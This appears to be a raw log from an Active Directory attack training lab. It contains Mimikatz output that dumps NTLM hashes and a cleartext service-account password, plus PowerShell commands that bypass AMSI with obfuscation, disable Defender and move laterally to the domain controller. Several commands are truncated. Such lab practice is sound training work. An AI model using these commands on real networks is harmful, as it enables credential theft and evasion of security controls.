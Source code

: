          * Username : mgmtadmin
         * Domain   : DOLLARCORP.MONEYCORP.LOCAL
         * Password : (null)
        ssp :
        credman :

Authentication Id : 0 ; 64905 (00000000:0000fd89)
Session           : Service from 0
User Name         : svcadmin
Domain            : dcorp
Logon Server      : DCORP-DC
Logon Time        : 11/26/2020 8:41:27 AM
SID               : S-1-5-21-1874506631-3219952063-538504511-1122
        msv :
         [00000003] Primary
         * Username : svcadmin
         * Domain   : dcorp
         * NTLM     : b38ff50264b74508085d82c69794a4d8
         * SHA1     : a4ad2cd4082079861214297e1cae954c906501b9
         * DPAPI    : fd3c6842994af6bd69814effeedc55d3
        tspkg :
        wdigest :
         * Username : svcadmin
         * Domain   : dcorp
         * Password : (null)
        kerberos :
         * Username : svcadmin
         * Domain   : DOLLARCORP.MONEYCORP.LOCAL
         * Password : *ThisisBlasphemyThisisMadness!!
        ssp :
        credman :

Authentication Id : 0 ; 997 (00000000:000003e5)
Session           : Service from 0
User Name         : LOCAL SERVICE
Domain            : NT AUTHORITY
Logon Server      : (null)
Logon Time        : 11/26/2020 8:41:24 AM
SID               : S-1-5-19
        msv :
        tspkg :
        wdigest :
         * Username : (null)
         * Domain   : (null)
         * Password : (null)
        kerberos :
         * Username : (null)
         * Domain   : (null)
         * Password : (null)
        ssp :
        credman :


[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student366\Documents> whoami
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student366\Documents> ipconfig
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student366\Documents> whoami /all
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student366\Documents> powershell -ep bypass
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student366\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + ('uZ'+'x') ) ([TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`B
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student366\Documents> $ExecutionContext.SessionState.LanguageModeConstrainedLanguage
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student366\Documents> Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student366\Documents> Set-MpPreference -DisableRealtimeMonitoring $true -Verbose
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Program Files> ls
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Program Files> .\Invoke-Mimikatz2.ps1
[dcorp-dc.dollarcorp.moneycorp.local]: PS C:\Users\svcadmin\Documents> hostname
[dcorp-dc]: PS C:\Users\Administrator\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + ('uZ'+'x') ) ([TYpE]( "{1}{0}"-F'F','r
[dcorp-dc.dollarcorp.moneycorp.local]: PS C:\Users\svcadmin\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + (
[dcorp-dc.dollarcorp.moneycorp.local]: PS C:\Users\svcadmin\Documents> New-ItemProperty "HKLM:\System\CurrentControlSet\